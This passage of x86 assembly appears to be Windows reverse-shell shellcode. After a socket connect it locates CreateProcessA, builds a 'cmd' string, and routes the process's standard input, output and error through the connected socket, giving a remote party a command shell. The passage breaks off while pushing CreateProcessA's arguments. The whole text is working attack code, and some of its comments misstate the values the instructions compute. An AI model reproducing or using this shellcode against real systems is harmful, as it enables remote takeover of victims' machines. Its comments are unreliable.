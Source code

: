 ```text
XCHG EBP, EDI
CALL EAX                             ;execute connect;

;Find the address of CreateProcessA
ADD  ESP, 0x14                       ;Clean stack
XOR  EBX, EBX                        ;zero out EBX
ADD  BL, 0x4                         ;add 0x4 to lower register BL
IMUL EBX, 0x62                       ;EBX = 0x190
MOV  EDX, [ESP + EBX]                ;EDX has the address of GetProcAddress
PUSH 0x61614173                      ;"aaAs"
SUB  dword [ESP + 0x2], 0x6161	     ;"As"
PUSH 0x7365636f                      ;"seco"
PUSH 0x72506574                      ;"rPet"
PUSH 0x61657243                      ;"aerC"
PUSH ESP                             ;"CreateProcessA" - 2nd argument of GetProcAddress
MOV  EBP, ESI                        ;move the kernel32.dll to EBP
PUSH EBP                             ;kernel32.dll address - 1st argument of GetProcAddress
CALL EDX                             ;execute GetProcAddress
PUSH EAX                             ;address of CreateProcessA
LEA EBP, [EAX]                       ;EBP now points to the address of CreateProcessA

;call CreateProcessA
PUSH 0x61646d63                      ;"admc"
SUB  word [ESP + 0x3], 0x61	     ;"dmc" ( remove a)
MOV  ECX, ESP                        ;ecx now points to "cmd" string
XOR  EDX, EDX                        ;zero out EDX
SUB  ESP, 16
MOV  EBX, esp                        ;pointer for ProcessInfo

;STARTUPINFOA struct
PUSH EDI                             ;hStdError  => saved socket
PUSH EDI                             ;hStdOutput => saved socket
PUSH EDI                             ;hStdInput  => saved socket
PUSH EDX                             ;lpReserved2 => NULL
PUSH EDX                             ;cbReserved2 => NULL
XOR  EAX, EAX                        ;zero out EAX register
INC  EAX                             ;EAX => 0x00000001
ROL  EAX, 8                          ;EAX => 0x00000100
PUSH EAX                             ;dwFlags => STARTF_USESTDHANDLES 0x00000100
PUSH EDX                             ;dwFillAttribute => NULL
PUSH EDX                             ;dwYCountChars => NULL
PUSH EDX                             ;dwXCountChars => NULL
PUSH EDX                             ;dwYSize => NULL
PUSH EDX                             ;dwXSize => NULL
PUSH EDX                             ;dwY => NULL
PUSH EDX                             ;dwX => NULL
PUSH EDX                             ;pTitle => NULL
PUSH EDX                             ;pDesktop => NULL
PUSH EDX                             ;pReserved => NULL
XOR  EAX, EAX                        ;zero out EAX
ADD  AL, 44                          ;cb => 0x44 (size of struct)
PUSH EAX                             ;eax points to STARTUPINFOA

;ProcessInfo struct
MOV  EAX, ESP                        ;pStartupInfo
PUSH EBX                             ;pProcessInfo
PUSH EAX                             ;pStartupInfo
PUSH EDX                             ;CurrentDirectory => NULL
PUSH EDX                             ;pEnvironment => NULL
PUSH EDX                             ;CreationFlags => 0
XOR  EAX, EAX                        ;zero out EAX register
INC  EAX                             ;EAX => 0x00000001
PUSH EAX                             ;InheritHandles => TRUE => 1
```